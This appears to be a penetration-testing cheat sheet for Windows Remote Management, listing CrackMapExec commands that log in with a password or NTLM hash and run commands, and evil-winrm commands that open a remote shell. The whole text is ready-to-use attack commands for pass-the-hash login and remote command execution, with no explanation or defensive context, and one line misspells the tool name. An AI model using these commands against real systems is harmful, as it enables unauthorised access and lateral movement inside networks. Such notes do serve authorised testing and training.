###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H ntlm_hash
cme winrm ip -u username -H ntlm_hash -x command
```

###### Get-shell
```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash
```
